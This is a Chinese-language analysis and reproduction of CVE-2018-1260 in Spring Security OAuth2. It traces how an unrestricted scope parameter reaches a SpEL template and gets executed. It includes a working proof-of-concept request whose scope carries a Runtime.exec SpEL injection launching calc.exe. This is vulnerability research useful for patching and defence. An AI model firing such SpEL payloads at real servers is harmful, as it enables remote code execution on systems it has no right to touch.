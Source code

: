 （CVE-2018-1260）Spring Security Oauth2 远程代码执行
====================================================

一、漏洞简介
------------

二、漏洞影响
------------

Spring Security OAuth 2.3 to 2.3.2Spring Security OAuth 2.2 to 2.2.1Spring Security OAuth 2.1 to 2.1.1Spring Security OAuth 2.0 to 2.0.14

三、复现过程
------------

### 漏洞分析

先简要补充一下关于OAuth2.0的相关知识。![1.png](resource/(CVE-2018-1260)SpringSecurityOauth2远程代码执行/media/rId25.png)以上图为例。当用户使用客户端时，客户端要求授权，即图中的AB。接着客户端通过在B中获得的授权向认证服务器申请令牌，即access
token。最后在EF阶段，客户端带着access token向资源服务器请求并获得资源。

在获得access
token之前，客户端需要获得用户的授权。根据标准，有四种授权方式：授权码模式（authorization
code）、简化模式（implicit）、密码模式（resource owner password
credentials）、客户端模式（client
credentials）。在这几种模式中，当客户端将用户导向认证服务器时，都可以带上一个可选的参数`scope`，这个参数用于表示客户端申请的权限的范围。

，根据[官方文档](http://projects.spring.io/spring-security-oauth/docs/oauth2.html)，在spring-security-oauth的默认配置中scope参数默认为空：

    scope: The scope to which the client is limited. If scope is undefined or empty (the default) the client is not limited by scope.

为明白起见，我们在demo中将其清楚写出：

    clients.inMemory()
            .withClient("client")
            .authorizedGrantTypes("authorization_code")
            .scopes();

接着开始正式分析。当我们访问`http://localhost:8080/oauth/authorize`重定向至`http://localhost:8080/login`并完成login后程序流程到达org/springframework/security/oauth2/provider/endpoint/AuthorizationEndpoint.java，这里贴上部分代码：

    @RequestMapping(value = "/oauth/authorize")
    public ModelAndView authorize(Map<String, Object> model, @RequestParam Map<String, String> parameters,
            SessionStatus sessionStatus, Principal principal) {

        // Pull out the authorization request first, using the OAuth2RequestFactory. All further logic should
        // query off of the authorization request instead of referring back to the parameters map. The contents of the
        // parameters map will be stored without change in the AuthorizationRequest object once it is created.
        AuthorizationRequest authorizationRequest = getOAuth2RequestFactory().createAuthorizationRequest(parameters);

        try {
            ...
            // We intentionally only validate the parameters requested by the client (ignoring any data that may have
            // been added to the request by the manager).
            oauth2RequestValidator.validateScope(authorizationRequest, client);
            ...

            // Place auth request into the model so that it is stored in the session
            // for approveOrDeny to use. That way we make sure that auth request comes from the session,
            // so any auth request parameters passed to approveOrDeny will be ignored and retrieved from the session.
            model.put("authorizationRequest", authorizationRequest);

            return getUserApprovalPageResponse(model, authorizationRequest, (Authentication) principal);

        }
        ...

第115行![2.png](resource/(CVE-2018-1260)SpringSecurityOauth2远程代码执行/media/rId27.png)在执行完`AuthorizationRequest authorizationRequest = ...`后，`authorizationRequest`代表了要认证的请求，其中包含了众多参数![3.png](resource/(CVE-2018-1260)SpringSecurityOauth2远程代码执行/media/rId28.png)

在经过了对一些参数的处理，比如RedirectUri等，之后到达第156行：

    // We intentionally only validate the parameters requested by the client (ignoring any data that may have
    // been added to the request by the manager).
    oauth2RequestValidator.validateScope(authorizationRequest, client);

在这里将对`scope`参数进行验证。跟入`validateScope`到org/springframework/security/oauth2/provider/request/DefaultOAuth2RequestValidator.java:19

    public class DefaultOAuth2RequestValidator implements OAuth2RequestValidator {

        public void validateScope(AuthorizationRequest authorizationRequest, ClientDetails client) throws InvalidScopeException {
            validateScope(authorizationRequest.getScope(), client.getScope());
        }
        ...
    }

继续跟入`validateScope`，至
org/springframework/security/oauth2/provider/request/DefaultOAuth2RequestValidator.java:28

    private void validateScope(Set<String> requestScopes, Set<String> clientScopes) {

        if (clientScopes != null && !clientScopes.isEmpty()) {
            for (String scope : requestScopes) {
                if (!clientScopes.contains(scope)) {
                    throw new InvalidScopeException("Invalid scope: " + scope, clientScopes);
                }
            }
        }
        
        if (requestScopes.isEmpty()) {
            throw new InvalidScopeException("Empty scope (either the client or the user is not allowed the requested scopes)");
        }
    }

首先检查`clientScopes`，这个`clientScopes`即我们在前面configure中配置的`.scopes();`，倘若不为空，则进行白名单检查。举个例子，如果前面配置`.scopes("chybeta");`，则传入`requestScopes`必须为`chybeta`，否则会直接抛出异常`Invalid scope:xxx`。但由于此处查`clientScopes`为空值，则接下来仅仅做了`requestScopes.isEmpty()`的检查并且通过。

在完成了各项检查和配置后，在`authorize`函数的最后执行：

    return getUserApprovalPageResponse(model, authorizationRequest, (Authentication) principal);

回想一下前面OAuth2.0的流程，在客户端请求授权（A），用户登陆认证（B）后，将会进行用户授权（C），这里即开始进行正式的授权阶段。跟入`getUserApprovalPageResponse`
至org/springframework/security/oauth2/provider/endpoint/AuthorizationEndpoint.java:241：![4.png](resource/(CVE-2018-1260)SpringSecurityOauth2远程代码执行/media/rId29.png)

生成对应的model和view，之后将会forward到/oauth/confirm\_access。为简单起见，我省略中间过程，直接定位到org/springframework/security/oauth2/provider/endpoint/WhitelabelApprovalEndpoint.java:20

public class WhitelabelApprovalEndpoint {\@RequestMapping(\"/oauth/confirm\_access\")public ModelAndView getAccessConfirmation(Map\<String, Object\> model,
HttpServletRequest request) throws Exception {String template = createTemplate(model, request);if (request.getAttribute(\"\_csrf\") != null) {model.put(\"\_csrf\", request.getAttribute(\"\_csrf\"));}return new ModelAndView(new SpelView(template), model);}\...}跟入createTemplate，第29行：

protected String createTemplate(Map\<String, Object\> model,
HttpServletRequest request) {String template = TEMPLATE;if (model.containsKey(\"scopes\") \|\| request.getAttribute(\"scopes\")
!= null) {template = template.replace(\"%scopes%\", createScopes(model,
request)).replace(\"%denial%\", \"\");}\...return template;}跟入createScopes，第46行：![5.png](resource/(CVE-2018-1260)SpringSecurityOauth2远程代码执行/media/rId30.png)

这里获取到了`scopes`，并且通过for循环生成对应的`builder`，其实就是html和一些标签等，最后返回的即`builder.toString()`,其值如下:

    <ul><li><div>scope.${T(java.lang.Runtime).getRuntime().exec("calc.exe")}: <input type='radio' name='scope.${T(java.lang.Runtime).getRuntime().exec("calc.exe")}' value='true'>Approve</input> <input type='radio' name='scope.${T(java.lang.Runtime).getRuntime().exec("calc.exe")}' value='false' checked>Deny</input></div></li></ul>

`createScopes`结束后将会把上述`builder.toString()`拼接到`template`中。`createTemplate`结束后，在`getAccessConfirmation`的最后：

    return new ModelAndView(new SpelView(template), model);

根据`template`生成对应的`SpelView`对象，这是其构造函数：![6.png](resource/(CVE-2018-1260)SpringSecurityOauth2远程代码执行/media/rId31.png)此后在页面渲染的过程中，将会执行页面中的Spel表达式`${T(java.lang.Runtime).getRuntime().exec("calc.exe")}`从而造成代码执行。

![7.png](resource/(CVE-2018-1260)SpringSecurityOauth2远程代码执行/media/rId32.png)

所以综上所述，这个任意代码执行的利用条件实在"苛刻"：

1.  需要`scopes`没有配置白名单，否则直接`Invalid scope:xxx`。不过大部分OAuth都会限制授权的范围，即指定scopes。
2.  使用了默认的Approval
    Endpoint，生成对应的template，在spelview中注入spel表达式。不过可能绝大部分使用者都会重写这部分来满足自己的需求，从而导致spel注入不成功。

### 漏洞复现

利用github上已有的demo：

    git clone https://github.com/wanghongfei/spring-security-oauth2-example.git

确保导入的spring-security-oauth2为受影响版本，以这里为例为2.0.10进入spring-security-oauth2-example，修改
cn/com/sina/alan/oauth/config/OAuthSecurityConfig.java的第67行:

    @Override
    public void configure(ClientDetailsServiceConfigurer clients) throws Exception {
       clients.inMemory()
                .withClient("client")
                .authorizedGrantTypes("authorization_code")
                .scopes();
    }

根据[spring-security-oauth2-example](https://github.com/wanghongfei/spring-security-oauth2-example.git)创建对应的数据库等并修改AlanOAuthApplication中对应的mysql相关配置信息。

访问：

    http://www.0-sec.org:8080/oauth/authorize?client_id=client&response_type=code&redirect_uri=http://www.github.com/chybeta&scope=%24%7BT%28java.lang.Runtime%29.getRuntime%28%29.exec%28%22calc.exe%22%29%7D

会重定向到login页面，随意输入username和password，点击login，触发payload。![3.gif](resource/(CVE-2018-1260)SpringSecurityOauth2远程代码执行/media/rId35.gif)
